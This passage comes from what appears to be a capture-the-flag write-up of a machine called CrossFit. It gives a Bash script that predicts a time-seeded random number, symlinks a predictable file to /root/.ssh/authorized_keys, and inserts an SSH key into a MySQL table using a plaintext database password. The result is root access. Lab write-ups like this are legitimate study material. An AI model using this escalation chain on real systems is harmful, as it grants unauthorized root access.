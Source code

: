 

Because I want to run a script on CrossFit, I'll need to compile this
there. I'll create a Bash script that writes this code, compiles it,
runs it, and cleans up:



    #/bin/bash

    cat > /var/tmp/d.c <<'EOF'
    #include <stdio.h>
    #include <time.h>
    #include <stdlib.h>


    int main() {

        time_t now = time(NULL);
        time_t next = now - (now % 60) + 61;
        srand(next);
        printf("%d\n", rand());

        return 0;
    }
    EOF

    echo '[*] Writing c code to get "random" int'
    gcc -o /var/tmp/d /var/tmp/d.c
    randint=$(/var/tmp/d)
    echo "[+] Got random int: $randint"
    echo "[*] Cleaning up code"
    rm /var/tmp/d /var/tmp/d.c



#### Generate Symlink

Next I need to create the symlink. I'll pick an ID kind of randomly (223
works), and then get the hash to create the filename:



    id=223
    fn=$(echo -n "${randint}${id}" | md5sum | cut -d' ' -f1)
    echo "[+] Filename will be: /var/local/$fn"
    ln -s /root/.ssh/authorized_keys /var/local/$fn
    echo "[+] Created symlink to /root/.ssh/authorized_keys"



#### Update Database

The next part of the script will update the database with the id 223 and
the rest being the parts of my public SSH key:



    ssh="ssh-ed25519"
    key="AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d"
    user="nobody@nothing"
    echo "[*] Writing to DB: insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
    mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"

